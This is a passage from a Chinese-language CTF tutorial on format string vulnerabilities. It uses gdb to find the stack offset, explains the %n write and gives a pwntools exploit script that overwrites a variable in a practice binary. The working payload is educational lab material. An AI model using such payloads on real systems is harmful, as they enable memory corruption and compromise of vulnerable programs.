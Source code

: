 #### 确定覆盖地址  
  
由于目前几乎所有的程序都开启了aslr保护，栈的地址一直在变，所以获取覆盖地址的方法千奇百怪，而且在前面几篇文章中也提到过几种，而且本篇文章的重点是格式化字符串漏洞，为了突出重点，这里我们就偷个懒直接将相应的地址输出了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72h48jy01SpUCNmxI9Nh3CTTKE78DCqWhelpsF6H84Db9DVcf5WGRBwg/640?wx_fmt=png&from=appmsg "")  
#### 确定相对偏移  
  
到这一步，我们需要确定一下存储格式化字符串的地址是printf将要输出的第几个参数，这里用前面我们提到的泄露栈变量数值的方法，来操作，也顺便复习一下前面的知识。  
```
gdb ./format2
b printf
r
c
Tide
stack

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72okgwAaibeiaEj5FkP75GoQXWsbKo0n0nicubdlQl1RO8dyc3EG8Uiace1w/640?wx_fmt=png&from=appmsg "")  
  
我们来分析一下栈上的数据，Tide是输入字符串的位置，Printf的所有参数入栈后，从栈顶依次向下排序发现其相对偏移是6，也就意味着通过%6$x即可实现覆盖，这样我们就确定了相对偏移，接下来我们就该来进行覆盖了。  
#### 进行覆盖  
  
前面提到相对偏移是6，也就是第6个参数处的值就是存储变量c的地址，我们可以利用%n的特征来修改c的值即  
```
c的地址+%012d%6$n

```  
  
由于c的地址长度为4，我们需要再输入12个字符才能达到16个字符，来达到我们修改c的值为16的目的  
  
将上述操作写成exp  
```
from pwn import *
sh = process('./format2')
c_addr = int(sh.recvuntil('\n', drop=True), 16)
print(hex(c_addr))
payload = p32(c_addr) + b'%012d' + b'%6$n'
print(payload)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  
最终运行结果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib722aUl3ibuCk7zoX2076oQW72oK2hapmSsOPB2LtuOYHPHK63gAYvCKxQ/640?wx_fmt=png&from=appmsg "")  
### 覆盖任意地址内存  
  
覆盖任意地址分两种情况，一种是写入的数值是一个比较小的数字，一种是写入的数值是比较大的数字。  
#### 覆盖小数字  
  